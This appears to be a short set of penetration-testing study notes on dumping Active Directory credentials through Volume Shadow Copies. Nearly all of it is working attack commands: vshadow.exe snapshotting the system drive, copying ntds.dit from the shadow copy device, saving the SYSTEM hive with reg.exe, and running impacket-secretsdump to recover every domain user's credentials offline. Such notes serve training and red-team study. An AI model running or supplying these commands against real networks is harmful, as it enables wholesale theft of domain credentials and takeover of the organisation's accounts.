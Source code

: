 
### Shadow Copies

Volume Shadow Service: ms backup solution'

ms signed binary: vshadow.exe

as domain admin: use vshadow to extract ad database ntds.dit 

we grab the SYSTEMhive from the db, and then we can extract every user's credential offline on kali

vshadow.exe -nw -p  C:
-nw for no writers for faster backup
-p to paste on disk

take note of the shadow copy device name

and we just 
copy `<shadow copy device name>`\windows\nntds\ntds.dit c:\ntds.dit.bak
for example:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

we need the SYSTEM hive saved to extact ntds.dit
reg.exe save hklm\system c:\system.bak

on kali:
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL